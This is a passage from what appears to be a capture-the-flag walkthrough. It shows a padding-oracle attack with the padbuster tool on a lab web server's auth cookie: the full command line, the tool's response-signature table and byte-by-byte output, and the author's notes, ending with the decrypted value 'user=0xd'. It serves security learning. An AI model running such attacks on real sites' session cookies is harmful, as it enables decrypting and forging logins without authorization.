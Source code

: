 

    root@kali# padbuster http://10.10.10.18/index.php LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U 8 -cookies auth=LreEXGNp3L%2FWgf071zsXoTJUyt1yEZ3U -encoding 0

    +-------------------------------------------+                                           
    | PadBuster - v0.3.3                        |                                           
    | Brian Holyfield - Gotham Digital Science  |                                           
    | labs@gdssecurity.com                      |                                           
    +-------------------------------------------+                                           

    INFO: The original request returned the following                                       
    [+] Status: 200                             
    [+] Location: N/A                           
    [+] Content Length: 978                     

    INFO: Starting PadBuster Decrypt Mode       
    *** Starting Block 1 of 2 ***               

    INFO: No error string was provided...starting response analysis                         

    *** Response Analysis Complete ***          

    The following response signatures were returned:                                        

    -------------------------------------------------------                                 
    ID#     Freq    Status  Length  Location                                                
    -------------------------------------------------------                                 
    1       1       200     1133    N/A         
    2 **    255     200     15      N/A         
    -------------------------------------------------------                                 

    Enter an ID that matches the error condition                                            
    NOTE: The ID# marked with ** is recommended :



In the table, 255 requests returned 15 bytes (`Invalid padding`), and
one returned 1133 bytes (likely the logged in page). So the error is ID
2. I'll enter that and hit enter to continue:



    Continuing test with selection 2

    [+] Success: (38/256) [Byte 8]              
    [+] Success: (90/256) [Byte 7]              
    [+] Success: (166/256) [Byte 6]             
    [+] Success: (166/256) [Byte 5]             
    [+] Success: (213/256) [Byte 4]             
    [+] Success: (25/256) [Byte 3]              
    [+] Success: (61/256) [Byte 2]              
    [+] Success: (173/256) [Byte 1]             

    Block 1 Results:                            
    [+] Cipher Text (HEX): d681fd3bd73b17a1                                                 
    [+] Intermediate Bytes (HEX): 5bc4e12e5e59a4db                                          
    [+] Plain Text: user=0xd                    
